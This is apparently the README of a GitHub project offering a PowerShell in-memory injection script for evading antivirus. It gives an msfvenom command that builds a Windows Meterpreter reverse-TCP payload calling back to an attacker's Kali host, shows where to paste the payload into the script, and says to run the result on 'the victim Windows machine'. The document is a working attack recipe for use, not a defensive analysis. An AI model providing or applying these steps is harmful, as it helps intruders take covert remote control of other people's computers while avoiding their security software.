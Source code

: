 # AntiVirus-bypass-PowerShell-In-Memory-Injection
Script made for bypassing antivirus using Powershell Injection method. Place your shellcode from msfvenom on line 15


<h3>Example of the payload needed:</h3>

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IPkali LPORT=4444 -f powershell
```

<h3>Then we copy the payload like this:</h3>

![Captura de pantalla 2023-02-27 210003.jpg](https://raw.githubusercontent.com/sergiovks/AntiVirus-Bypass-PowerShell-In-Memory-Injection/main/Captura%20de%20pantalla%202023-02-27%20210003.jpg)

<h3>And paste the payload to the 15th line of the .ps1 file:</h3>

![Captura de pantalla 2023-02-27 210359.jpg](https://raw.githubusercontent.com/sergiovks/AntiVirus-Bypass-PowerShell-In-Memory-Injection/main/Captura%20de%20pantalla%202023-02-27%20210359.jpg)

<h3>Save the final PowerShell script and run it within the victim Windows machine.</h3>
